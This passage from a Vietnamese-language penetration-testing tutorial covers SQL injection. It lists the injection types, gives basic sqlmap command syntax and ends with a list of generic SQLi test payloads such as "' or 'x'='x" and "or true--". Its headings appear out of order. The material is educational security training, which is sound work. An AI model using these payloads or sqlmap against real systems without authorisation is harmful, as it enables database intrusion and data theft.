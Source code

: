 ```
Tất cả những ví dụ về SQL Injection mà ta đã học ở bài trước và phần 1 của bài này đều là những cách thức cơ bản và đơn giản nhất để khai thác lỗ hổng SQL Injection. Trong thực tế, lỗ hổng SQL Injection có 3 dạng khác nhau:

* In-band SQL Injection
* Inferential (Blind) SQL Injection
* Out-of-band SQL Injection

chúng ta sẽ cần một công cụ được thiết kế chuyên cho việc khai thác lỗ hổng SQL Injection từ cơ bản đến nâng cao. Công cụ ấy có tên là SQLmap.
SQLmap là một công cụ trên giao diện dòng lệnh. SQLmap là một công cụ mã nguồn mở và miễn phí được tích hợp sẵn vào Kali Linux nhằm mục đích tự động phát hiện và khai thác lỗ hổng SQL Injection dựa vào URL form đăng nhập được cung cấp bởi người dùng.
### Cách sử dụng SQLmap
Cú pháp một câu lệnh của SQLmap như sau: ```sqlmap -u "url-mục-tiêu?form-parameter"``` ngài ra còn có rất nhiều flag có thể xem ở man

Trong câu lệnh trên, flag -u dùng để cho biết URL của form đăng nhập mà bạn muốn tấn công SQL Injection. Đây là flag bắt buộc phải có khi dùng công cụ SQLmap. 

Khi chạy câu lệnh trên, SQLmap sẽ tự động kiểm tra xem mục tiêu có dính lỗi SQL Injection hay không? Đồng thời, trong nhiều trường hợp, nó sẽ cung cấp một vài thông tin khá hữu ích như:

* Tên hệ điều hành
* Tên và version của cơ sở dữ liệu SQL
* Tên web server
* v.v
# Bài 11: Thực hành khai thác lỗi SQL Injection thông qua SQLmap
## SQLmap
## Khác thác lỗ hổng SQL Injection theo cách thủ công
Khi pentest hoặc học pentest, sẽ có những trường hợp bạn không thể sử dụng SQLmap để khai thác lỗ hổng SQL Injection được. Lí do thì có rất nhiều, có thể hệ thống mục tiêu được thiết lập tường lửa chặn bruteforce hoặc có chức năng giới hạn số request có thể được xử lý. 

Một vài payload test SQLi
```
'-'
' '
'&'
'^'
'*'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x